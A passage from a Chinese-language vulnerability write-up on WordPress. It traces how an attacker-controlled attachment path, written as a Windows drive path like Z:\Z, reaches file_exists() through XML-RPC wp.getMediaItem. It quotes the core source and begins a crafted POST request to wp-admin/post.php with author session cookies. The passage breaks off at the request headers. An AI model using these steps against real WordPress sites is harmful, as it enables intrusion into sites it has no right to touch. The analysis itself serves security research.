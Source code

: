     $file = get_attached_file( $post->ID );

    if ( !empty($imagedata['thumb']) && ($thumbfile = str_replace(basename($file), $imagedata['thumb'], $file)) && file_exists($thumbfile) ) {
        /**
         * Filters the attachment thumbnail file path.
         *
         * @since 2.1.0
         *
         * @param string $thumbfile File path to the attachment thumbnail.
         * @param int    $post_id   Attachment ID.
         */
        return apply_filters( 'wp_get_attachment_thumb_file', $thumbfile, $post->ID );
    }
    return false;
}
该函数可以通过XMLRPC调用"wp.getMediaItem"这个方法来访问到，变量$thumbfile传入了file_exists()，正是我们需要的函数，现在我们需要回溯一下$thumbfile变量，看其是否可控。

根据$thumbfile = str_replace(basename($file), $imagedata['thumb'], $file)，如果basename($file)与$file相同的话，那么$thumbfile的值就是$imagedata['thumb']的值。先来看$file是如何获取到的：

wp-includes/post.php

function get_attached_file( $attachment_id, $unfiltered = false ) {
    $file = get_post_meta( $attachment_id, '_wp_attached_file', true );

    // If the file is relative, prepend upload dir.
    if ( $file && 0 !== strpos( $file, '/' ) && ! preg_match( '|^.:\\\|', $file ) && ( ( $uploads = wp_get_upload_dir() ) && false === $uploads['error'] ) ) {
        $file = $uploads['basedir'] . "/$file";
    }

    if ( $unfiltered ) {
        return $file;
    }

    /**
     * Filters the attached file based on the given ID.
     *
     * @since 2.1.0
     *
     * @param string $file          Path to attached file.
     * @param int    $attachment_id Attachment ID.
     */
    return apply_filters( 'get_attached_file', $file, $attachment_id );
}
如果$file是类似于windows盘符的路径Z:\Z，正则匹配就会失败，$file就不会拼接其他东西，此时就可以保证basename($file)与$file相同。

可以通过发送如下数据包来调用设置$file的值：

POST /wordpress/wp-admin/post.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 147
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/wordpress/wp-admin/post.php?post=10&action=edit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_5bd7a9c61cda6e66fc921a05bc80ee93=author%7C1535082294%7C1OVF85dkOeM7IAkQQoYcEkOCtV0DWTIrr32TZETYqQb%7Cb16569744dd9059a1fafaad1c21cfdbf90fc67aed30e322c9f570b145c3ec516; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_5bd7a9c61cda6e66fc921a05bc80ee93=author%7C1535082294%7C1OVF85dkOeM7IAkQQoYcEkOCtV0DWTIrr32TZETYqQb%7C5c9f11cf65b9a38d65629b40421361a2ef77abe24743de30c984cf69a967e503; wp-settings-time-2=1534912264; XDEBUG_SESSION=PHPSTORM
Connection: close
